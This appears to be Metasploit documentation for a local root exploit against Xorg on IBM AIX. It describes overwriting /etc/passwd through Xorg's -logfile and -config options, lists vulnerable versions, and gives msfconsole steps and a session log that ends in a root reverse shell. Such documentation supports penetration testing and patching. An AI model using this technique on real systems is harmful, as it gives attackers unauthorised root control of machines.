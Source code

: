 ## Description

This module is a port of the OpenBSD X11 Xorg exploit to run on AIX. A permission check flaw exists for -modulepath and -logfile options when starting Xorg. This allows unprivileged users that can start the server the ability to elevate privileges and run arbitrary code under root privileges. This module has been tested with AIX 7.1 and 7.2, and should also work with 6.1. Due to permission restrictions of the crontab in AIX, this module does not use cron, and instead overwrites /etc/passwd in order to create a new user with root privileges. All currently logged in users need to be included when /etc/passwd is overwritten, else AIX will throw 'Cannot get "LOGNAME" variable' when attempting to change user. The Xorg '-fp' parameter used in the OpenBSD exploit does not work on AIX, and is replaced by '-config', in conjuction with ANSI-C quotes to inject newlines when overwriting /etc/passwd.

## Vulnerable Application

This module has been tested successfully on:

* AIX 7.1 with Xorg 7.2.3.0
* AIX 7.2 with Xorg 7.2.3.0

This table lists all vulnerable Xorg versions:

| Lower Level | Upper Level |
|-------------|-------------|
| 6.1.9.0     | 6.1.9.100   |
| 7.1.4.0     | 7.1.4.30    |
| 7.1.5.0     | 7.1.5.31    |
| 7.2.0.0     | 7.2.0.1     |
| 7.2.1.0     | 7.2.1.0     |
| 7.2.2.0     | 7.2.2.0     |
| 7.2.3.0     | 7.2.3.15    |

## Verification Steps

1. `msfconsole`
2. Get a session
3. `use exploit/aix/local/xorg_x11_server`
4. `set session <session>`
5. `set LHOST <lhost>`
6. `set LPORT <lport>`
7. `set writabledir <writabledir>`
8. `run`

## Options

**SESSION**

Which session to use, which can be viewed with `sessions`

**WritableDir**

A writable directory file system path. (default: `/tmp`)

## Scenarios
https://vimeo.com/372193921

```
msf5 exploit(aix/local/xorg_x11_server) > set session 1
session => 1
msf5 exploit(aix/local/xorg_x11_server) > set writabledir /tmp
writabledir => /tmp
msf5 exploit(aix/local/xorg_x11_server) > run

[*] Started reverse TCP handler on 0.0.0.0:8888
[*] Xorg version is 7.2.3.0
[*] Retrieving currently logged in users
[*] Writing to /tmp/wow.ksh
[*] Backing up /etc/passwd to /tmp/passwd.backup
[*] Executing /tmp/wow.ksh
[*] Checking if we are root
[+] Got root!
[*] Writing to /tmp/wowee.ksh
[*] Executing shell payload
[*] Restoring original /etc/passwd
[*] Command shell session 2 opened (172.17.0.2:8888 -> 172.17.0.1:32948) at 2019-02-11 15:42:56 +0000
[+] Deleted /tmp/wow.ksh
[+] Deleted /tmp/passwd.backup
[+] Deleted /tmp/wowee.ksh

id
uid=0(root) gid=0(system)

```
